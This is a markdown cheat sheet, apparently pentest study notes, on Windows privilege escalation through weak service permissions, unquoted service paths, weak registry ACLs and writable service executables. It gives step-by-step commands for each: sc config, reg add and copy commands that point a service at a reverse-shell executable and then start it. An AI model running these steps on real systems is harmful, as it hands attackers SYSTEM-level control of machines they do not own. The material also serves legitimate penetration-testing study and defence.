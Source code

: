 ###  Insecure Service Properties/Permissions

Dangerous permissions: `SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS`
Useful permissions: `SERVICE_STOP, SERVICE_START`

*NOTE: If you can change service configs, but can't stop/start the service, you may not be able to PrivEsc!*

#### PrivEsc Example
1. Check with winPEAS: `.\winPEASany.exe quiet servicesinfo`
2. Confirm result with AccessChk: `.\accesschk.exe /accepteula -uwcqv user <name>`
3. Check configuration: `sc qc <name>`
4. Check status: `sc query <name>`
5. Reconfigure path: `sc config <name> binpath="\"C:\PrivEsc\reverse.exe"\"`
6. Start Listener
7. Start/restart service: `net start <name>`

### Unquoted Service Path

Unquoted paths (ex): `C:\Program Files\Some Dir\SomeProgram.exe`
Possible paths:
 - `C:\Program.exe`
 - `C:\Program Files\Some.exe`

Check all potential write permissions:
 - `.\accesschk.exe /accepteula -uwdq C:\`
 - `.\accesschk.exe /accepteula -uwdq "C:\Program Files\"`
 - `.\accesschk.exe /accepteula -uwdq "C:\Program Files\Some Dir\"`

Copy rev shell to writeable directory.
Then `net start <name>`

### Weak Registry Permission

Requires: SERVICE_START

Can allow you to modify a service indirectly to PrivEsc

1. Check for service misconfiguration: `.\winPEASany.exe quiet servicesinfo`
2. Confirm misconfiguration with one of the following:
	1. `PS> Get-Acl HKLM:\System\CurrentControlSet\Services\<name> | Format-List`
	2. `.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<name>`
3. Overwrite registry key value to point to our own rev shell: 
```cmd
reg add HKLM\SYSTEM\CurrentControlSet\services\<name> /v ImagePath /t REG_EXPAND_SZ /d C:\path /f
```
5. Start service: `net start <name>`

### Insecure Service Executables

Requires: SERVICE_START

Exchange a service executable if we have write permissions to it.

1. Check for the vulnerability: `.\winPEASany.exe quiet servicesinfo`
2. Verify with accesschk: `.\accesschk.exe /accepteula -quvw "C:\Program Files\Service Path\service.exe"`
3. Backup the service exe: `copy "C:\Program Files\Service Path\service.exe" C:\Temp`
4. Overwrite with our revshell: `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Service Path\service.exe"`
5. Start listener on Kali
6. Start service: `net start <name>`
